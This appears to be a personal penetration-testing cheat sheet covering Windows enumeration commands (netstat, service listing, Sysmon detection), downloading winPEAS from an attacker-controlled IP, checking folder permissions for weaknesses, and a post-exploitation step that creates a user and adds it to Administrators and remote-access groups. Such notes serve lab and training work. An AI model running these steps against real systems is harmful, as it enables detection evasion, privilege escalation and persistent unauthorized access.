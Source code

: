 - ipconfig
  - /all

- netstat
  - -a all
  - -b binary connection
  - -n not resolving ip
  - -o PID
  - -l = listening
  - -t = tcp
  - -u = udp
  - -x = unix
  - -p = process id
  - find open ports

- Test Connection
  - Test-NetConnection / TCPClient
  - Test-NetConnection -ComputerName IP -Port

- get-EventLog -List
- sysmon: logger
  - get-Process | Where-Object  { $_.ProcessName -eq "Sysmon" }
  - Get-CimInstance win32_service -Filter "Description = 'System Monitor Service'"
  - Get-Service | where-object {$_.DisplayName -like "*sysm*"}
  - Get-CimInstance win32_service -Filter "Description = 'System Monitor service'"
  - reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\WINEVT\Channels\Microsoft-Windows-Sysmon/Operational
  - findstr /si '<ProcessCreate onmatch="exclude">' C:\tools\*

- Services
  - wmic product get name,version
    - wmic service where "name like 'name'" get Name,Version,Pathname
  - get-ChildItem -Hidden -Path C:\Users\NANE
  - get-Process
    - -Name
  - netstat -noa
  - net start
  - nslookup

- findstr = grep
- Windows: get file 
- powershell -c Invoke-Webrequest -OutFile winPeas.exe http://10.8.80.130/file.ext
- powershell -c wget "http://10.8.80.130/Invoke-winPEAS.ps1" -outfile "winPEAS.ps1"

- check permision
  - powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list" ==> if fullcontroll = vuln

- powershell.exe
  
## Stabilize and Post Exploit windows
- Create user + add group admin
  - **net user USERNAME PASS /add**
  - **net localgroup Administrators/"Backup Operators"/"Remote Management Users"/"Remote Desktop Users" Username /add**
  